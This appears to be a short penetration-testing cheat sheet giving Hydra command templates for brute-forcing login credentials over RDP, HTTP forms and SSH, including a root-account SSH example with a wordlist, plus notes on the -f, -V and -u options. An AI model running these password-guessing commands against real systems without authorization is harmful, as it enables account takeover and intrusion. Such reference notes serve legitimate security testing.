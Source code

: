### RDP creds
hydra -V -f -l/-L <user/list> -p/-P <pass/list> rdp://<targetIP>

### HTTP login form
hydra -l/-L <user/list> -p/-P <pass/list> <victimIP> <formType> "<loginFormPath>:<data>:<errorMsg>" <verbosity>

### ssh creds
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<ip>:<port> -t 4 -V

Extra options:
	-f: Stop on the first correct combination
	-V: Verbose (print all combinations)
	-u: When using a userlist, this option tries one password on every user, 
	    before moving on to the next password. Default tries all passwords
	    for one user, before moving on to the next user.